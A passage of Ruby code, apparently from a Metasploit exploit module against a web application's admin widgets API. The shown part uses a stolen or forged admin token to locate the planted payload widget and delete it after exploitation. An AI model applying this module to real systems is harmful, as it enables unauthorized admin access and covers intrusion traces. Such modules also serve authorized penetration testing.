     widget
  end
 
  def get_widget_item(admin_token, widget)
    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => normalize_uri(target_uri.path, 'admin', 'api', 'widgets'),
      'cookie' => "__admin=#{admin_token.token}",
      'ctype'  => 'application/json'
    })
 
    unless res
      fail_with(Failure::Unknown, 'Connection timed out')
    end
 
    res_json = res.get_json_document
    count = res_json['count']
    items = res_json['items']
 
    unless count
      fail_with(Failure::Unknown, 'No count key found in body')
    end
 
    unless items
      fail_with(Failure::Unknown, 'No items key found in body')
    end
 
    items.each do |item|
      widget_name = item['name']
      if widget_name.match(/p_/)
        return item
      end
    end
 
    []
  end
 
  def clear_widget
    admin_token = get_admin_token
    widget = get_widget
 
    print_status('Finding the payload from the widget list...')
    item = get_widget_item(admin_token, widget)
 
    json_body = {
      'id'          => item['id'],
      'picture'     => item['picture'],
      'name'        => item['name'],
      'icon'        => item['icon'],
      'category'    => item['category'],
      'datecreated' => item['datecreated'],
      'reference'   => item['reference']
    }.to_json
 
    res = send_request_cgi({
      'method' => 'DELETE',
      'uri'    => normalize_uri(target_uri.path, 'admin', 'api', 'widgets'),
      'cookie' => "__admin=#{admin_token.token}",
      'ctype'  => 'application/json',
      'data'   => json_body
    })
 